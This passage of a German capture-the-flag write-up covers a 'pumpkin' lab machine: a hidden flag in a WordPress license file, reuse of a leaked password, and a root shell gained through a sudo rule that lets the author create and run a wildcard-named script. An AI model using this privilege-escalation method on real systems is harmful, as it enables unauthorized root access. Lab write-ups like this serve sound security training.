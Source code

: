 ````
-rw-r--r--  1 nobody   nogroup  19988 Jul 13  2019 license.txt
-rw-r--r--  1 nobody   nogroup    642 Jul 16  2019 readme.html
-rw-r--r--  1 nobody   nogroup   5434 Sep 23  2017 wp-activate.php
drwxr-xr-x  9 nobody   nogroup   4096 Feb  6  2018 wp-admin
-rw-r--r--  1 nobody   nogroup    364 Dec 19  2015 wp-blog-header.php
-rw-r--r--  1 nobody   nogroup   1627 Aug 29  2016 wp-comments-post.php
-rw-rw-rw-  1 www-data www-data  3124 Jul 14  2019 wp-config.php
-rw-r--r--  1 nobody   nogroup   2853 Dec 16  2015 wp-config-sample.php
drwxrwxrwx  5 nobody   nogroup   4096 Sep 22 02:52 wp-content
-rw-r--r--  1 nobody   nogroup   3669 Aug 20  2017 wp-cron.php
drwxr-xr-x 18 nobody   nogroup  12288 Feb  6  2018 wp-includes
-rw-r--r--  1 nobody   nogroup   2422 Nov 21  2016 wp-links-opml.php
-rw-r--r--  1 nobody   nogroup   3306 Aug 22  2017 wp-load.php
-rw-r--r--  1 nobody   nogroup  36583 Oct 13  2017 wp-login.php
-rw-r--r--  1 nobody   nogroup   8048 Jan 11  2017 wp-mail.php
-rw-r--r--  1 nobody   nogroup  16246 Oct  4  2017 wp-settings.php
-rw-r--r--  1 nobody   nogroup  30071 Oct 18  2017 wp-signup.php
-rw-r--r--  1 nobody   nogroup   4620 Oct 24  2017 wp-trackback.php
-rw-r--r--  1 nobody   nogroup   3065 Aug 31  2016 xmlrpc.php

jack@pumpkin:~$ cat ../web/license.txt 
WordPress - Web publishing software

Copyright 2011-2018 by the contributors

PumpkinToken : 5ff346114d634a015ce413e1bc3d8d71


This program is free software; you can redistribute it and/or modify
[...]
````

Nicht schlecht, das war ein sehr gut verstecktes Token Nummer 10!

Da ich aus der Seite http://pumpkins.local/readme.html Jacks Passwort bekommen habe, habe ich `sudo -l` ausprobiert. Vielleicht darf er ja etwas also root ausführen.

````
Matching Defaults entries for jack on pumpkin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on pumpkin:
    (ALL) /home/jack/pumpkins/alohomora*
````

Weder das Verzeichnis, noch die Datei haben zu diesem Zeitpunkt existiert, ich habe also freie Hand, was ich dort erstelle.

Aufgrund der fortgeschrittenen Uhrzeit und dem in der Luft liegenden Duft einer Root-Shell war ich hier recht unkreativ:

````
jack@pumpkin:~$ mkdir pumpkins
jack@pumpkin:~$ cd pumpkins/
jack@pumpkin:~/pumpkins$ nano alohomora
jack@pumpkin:~/pumpkins$ cat alohomora 
#!/bin/sh
echo "Alohomora!"
su -
jack@pumpkin:~/pumpkins$ chmod +x alohomora\* 
jack@pumpkin:~/pumpkins$ sudo ./alohomora 
Alohomora!
root@pumpkin:~# 
````
